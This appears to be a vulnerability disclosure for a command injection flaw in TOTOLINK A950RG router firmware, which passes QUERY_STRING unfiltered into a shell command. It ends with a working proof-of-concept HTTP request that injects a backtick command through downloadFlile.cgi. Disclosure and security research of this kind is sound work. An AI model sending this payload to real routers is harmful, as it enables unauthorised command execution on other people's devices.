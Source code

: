 # TOTOLink A950RG Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A950RG V5.9c.4050_B20190424,V4.1.2cu.5204_B20210112
- **Firmware download address:** https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html



## Description

### 1.Product Information:

TOTOLink A950RG router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213002602145.png)



### 2. Vulnerability details

![image-20220213002931237](images/image-20220213002931237.png)

TOTOLINK A950RG  was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)